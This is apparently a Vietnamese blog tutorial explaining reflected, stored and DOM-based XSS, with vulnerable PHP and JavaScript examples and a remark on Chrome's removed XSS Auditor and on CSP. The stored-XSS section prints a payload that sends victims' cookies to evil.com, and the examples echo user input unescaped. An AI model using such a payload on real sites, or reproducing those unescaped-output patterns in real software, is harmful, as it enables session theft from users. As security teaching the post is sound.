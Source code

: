 ```yaml
---
title: XSS là gì part 1 
date: 2025-03-18 18:20:13
tags: [Blog, XSS]
categories: [Công nghệ, Lập trình, Security]
author: Đạt
description: Những khái niệm cơ bản cần biết về XSS 
---
```


XSS đáng sợ hơn bạn nghĩ 

Bạn nghĩ XSS là lấy được phiên đăng nhập của người dùng ? 
XSS (Cross-Site Scripting) không chỉ để lấy session cookie của người dùng mà còn có thể:
✅ Đánh cắp thông tin (session, token, dữ liệu nhạy cảm)
✅ Chèn mã độc (keylogger, phishing, trojan)
✅ Thực thi lệnh từ phía client (DOM manipulation, redirect, fake UI)
✅ Thực hiện CSRF (Cross-Site Request Forgery) gián tiếp



<table>
  <thead>
    <tr>
      <th>Loại XSS</th>
      <th>Cơ chế tấn công</th>
      <th>Cách khai thác</th>
      <th>Mức độ nguy hiểm</th>
      <th>Đặc điểm chính</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><b>Reflected XSS</b></td>
      <td>Script độc hại được phản hồi ngay lập tức trong HTTP response.</td>
      <td>Hacker gửi link chứa payload, dụ nạn nhân click vào.</td>
      <td>⭐⭐ (Trung bình)</td>
      <td>- Không lưu trên server <br> - Chạy ngay khi user truy cập link.</td>
    </tr>
    <tr>
      <td><b>Stored XSS</b></td>
      <td>Script độc hại được lưu trữ trên server và thực thi khi user truy cập.</td>
      <td>Payload được chèn vào database, file log hoặc giao diện web.</td>
      <td>⭐⭐⭐ (Cao)</td>
      <td>- Lưu trên server <br> - Tự động thực thi khi có user truy cập.</td>
    </tr>
    <tr>
      <td><b>DOM-based XSS</b></td>
      <td>Script độc hại không đi qua server, mà được thực thi trên trình duyệt qua DOM.</td>
      <td>Thay đổi DOM bằng JavaScript không an toàn (<code>innerHTML</code>, <code>eval()</code>).</td>
      <td>⭐⭐⭐ (Cao)</td>
      <td>- Không xuất hiện trong HTTP response <br> - Tấn công thuần client-side.</td>
    </tr>
  </tbody>
</table>


<h2>1. Reflected XSS</h2>

Tại sao nó lại được gọi là Reflected XSS?
Reflected XSS được gọi là "Reflected" (phản chiếu) vì payload không được lưu trữ trên server mà phản hồi ngay lập tức trong HTTP response.
Khi người dùng truy cập một URL chứa mã độc, server trả lại nội dung có chứa script mà hacker gửi lên, và script này sẽ được thực thi ngay trên trình duyệt của nạn nhân.
Reflected XSS có nghĩa là payload XSS không được lưu trữ trên server mà phản chiếu trực tiếp trong HTTP response. Kiểu tấn công này yêu cầu hacker phải lừa nạn nhân nhấp vào link hoặc gửi request độc hại để mã JavaScript được thực thi trên trình duyệt của họ.

Ta có source code của trang web:
<img src="/images/XSS-la-gi/1.png"/>

Dễ thấy rằng nó có 1 input để nhập vào, nhưng không có bất kì kiểm tra nào, và nó sẽ được gửi đến trang web.

<?php
session_start();
if (isset($_GET['name'])) {
    echo 'Hello ' . $_GET['name'];
}
?>

Vấn đề sẽ phát sinh khi attacker thay vì nhập 1 tên bình thường thì lại gửi request như sau:

<img src="/images/XSS-la-gi/2.png" />

Session ID của user đã bị phơi bày, đây là ví dụ về loại phổ biến nhất của XSS: Reflected XSS cho thấy cách hoạt động của XSS, thực tế hacker thường lợi dụng XSS để gửi request chứa cookie cũng như các thông tin nhạy cảm về server của hacker.

<h2>2. Stored XSS</h2>

Stored XSS (hay Persistent XSS) là một kiểu tấn công XSS trong đó mã độc được lưu trữ trên server và tự động thực thi mỗi khi người dùng truy cập vào trang có chứa mã đó.

Ví dụ Stored XSS:
Hacker nhập đoạn script sau vào một ô nhập bình luận trên website:


```html
<script>document.location='http://evil.com/steal?cookie='+document.cookie;</script>
```

Nếu trang web không kiểm tra đầu vào mà lưu bình luận này vào database, bất kỳ ai xem bình luận đó sẽ bị đánh cắp cookie.

Điều gì xảy ra nếu 1 bài viết trên FB bị lỗi stored XSS ???  <img src="/images/meme/hacker.png"/>

<h2>3. DOM based XSS</h2>

DOM : (Document Object Model) là một mô hình dữ liệu thể hiện cấu trúc của một trang web dưới dạng cây phân cấp. Nó giúp JavaScript có thể truy cập, chỉnh sửa hoặc thêm/xóa nội dung HTML một cách linh hoạt.
📌 Hiểu đơn giản hơn:
🔹 Khi bạn mở một trang web, trình duyệt sẽ biến đổi HTML thành một cây DOM.
🔹 Mỗi thẻ HTML trở thành một nút (node) trong cây.
🔹 JavaScript có thể tương tác với các nút này để thay đổi nội dung trang web.
```html
<!DOCTYPE html>
<html>
<head>
    <title>Ví dụ DOM</title>
</head>
<body>
    <h1 id="greeting">Chào bạn!</h1>
    <button onclick="changeText()">Nhấn để thay đổi</button>

    <script>
        function changeText() {
            document.getElementById("greeting").innerText = "Hello, DOM!";
        }
    </script>
</body>
</html>
```

Giải thích:
document.getElementById("greeting") → Truy cập thẻ `<h1>` có id="greeting".
.innerText = "Hello, DOM!" → Thay đổi nội dung của thẻ `<h1>`.
🛠 Khi bạn nhấn nút, dòng chữ "Chào bạn!" sẽ đổi thành "Hello, DOM!".



```html
<script>
    var params = new URLSearchParams(window.location.search);
    var name = params.get('name');
    if (name) {
        document.write('Hello ' + name);
    }
</script>
```

Khi gửi request có chứa tham số ‘name’, server sẽ dùng DOM (Document Object Model) để lấy giá trị của tham số ‘name’ và viết lời chào lên browser.
Khi hacker gửi request chứa mã độc, script sẽ được thực thi:
<img src="/images/XSS-la-gi/3.png" />

Tuy nhiên, điều đáng nói ở đây, và cũng là điểm khác biệt của DOM based XSS là mã độc được thực thi do đoạn Javascript phía client mà không cần server xử lý request. Kết quả là response trả về không hề chứa đoạn script của hacker. Bạn đọc sẽ thấy được điều này khi view-source trang web:

Bạn đọc đã thấy được sự khác nhau của DOM based XSS và Reflected XSS chứ. Thế nhưng bạn sẽ thắc mắc rằng sự khác biệt này thì có ý nghĩa gì. Thật ra là có đấy. Trình duyệt web Google Chrome có một tính năng bảo mật được bật mặc định là XSS Auditor, nó là 1 filter của browser, có chức năng ngăn chặn cuộc tấn công XSS. Browser sẽ kiểm tra xem trong request mà client gửi lên có chứa mã độc không, nó sẽ so sánh script này với nội dung response từ server. Nếu script từ request giống với response, XSS Auditor sẽ nhận biết đây là một cuộc tấn công XSS và block đoạn script này.
Bonus: 🔥 Google Chrome đã loại bỏ XSS Auditor từ phiên bản 78 (2019) vì cơ chế này có nhiều hạn chế và đôi khi gây false positive (chặn nhầm).
Hiện tại, các cơ chế bảo vệ XSS chủ yếu dựa vào Content Security Policy (CSP), chứ không còn phụ thuộc vào XSS Auditor nữa.

